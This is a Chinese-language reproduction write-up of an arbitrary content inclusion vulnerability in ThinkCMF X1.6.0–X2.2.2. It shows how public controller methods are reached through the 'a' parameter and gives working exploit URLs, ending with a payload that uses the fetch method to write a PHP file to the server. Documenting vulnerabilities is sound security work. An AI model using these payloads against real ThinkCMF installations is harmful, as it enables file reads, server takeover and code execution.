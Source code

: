 # ThinkCMF 框架上的任意内容包含漏洞

> 原文：[https://www.zhihuifly.com/t/topic/3138](https://www.zhihuifly.com/t/topic/3138)

# ThinkCMF 框架上的任意内容包含漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2

## 三、复现过程

根据index.php中的配置，他的项目路径为application，打开 Portal 下的 Controller 目录，选择一个控制类文件。

![image](img/2b6a42a3bcca1c7062e9fb81990a2cf0.png)

发现他的父类为Common\Controller\HomebaseController。
在HomeBaseController中加入如下测试代码

![image](img/c766c7cc2387ac46920f4fd1cbe5b543.png)

ThinkPHP是一套基于MVC的应用程序框架，被分成三个核心部件：模型（M）、视图（V）、控制器（C）。
由于添加的代码在控制器中，根据ThinkPHP框架约定可以通过a参数来指定对应的函数名，但是该函数的修饰符必须为Public, 而添加的代码正好符合该条件。
可以通过如下URL进行访问，并且可以添加GET参数arg1传递给函数。

```
http://127.0.0.1/cmfx-master/?a=test_public&arg1=run%20success 
```

![image](img/8129073d7be6fbd2441ee49b3ba11ca4.png)

HomeBaseController类中有一些访问权限为public的函数，

![image](img/9aa3c4fdec99f95178857d03f2f9ee98.png)

重点关注display函数.看描述就是可以自定义加载模版，通过
$this->parseTemplate 函数根据约定确定模版路径，如果不符合原先的约定将会从当前目录开始匹配。
然后调用THinkphp Controller 函数的display方法

```
/**
 * 加载模板和页面输出 可以返回输出内容
 * @access public
 * @param string $templateFile 模板文件名
 * @param string $charset 模板输出字符集
 * @param string $contentType 输出类型
 * @param string $content 模板输出内容
 * @return mixed
 */
public function display($templateFile = '', $charset = '', $contentType = '', $content = '', $prefix = '') {
    parent::display($this->parseTemplate($templateFile), $charset, $contentType,$content,$prefix);
} 
```

再往下就是调用Think View的fetch方法，这里的TMPL_ENGINE_TYPE 为Think, 最终模版内容解析在ParseTemplateBehavior中完成
如下调用即可加载任意文件
http://0-sec.org:81/cmfx-master/?a=display&templateFile=README.md

![image](img/4abe08032248d763301f0efb37d84ba5.png)

往下面翻阅发现还有fetch方法，display方法相对fetch只是多了一个render的过程，而且这里不需要知道文件路径

最终完美payload

```
http://0-sec.org/?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php> 
```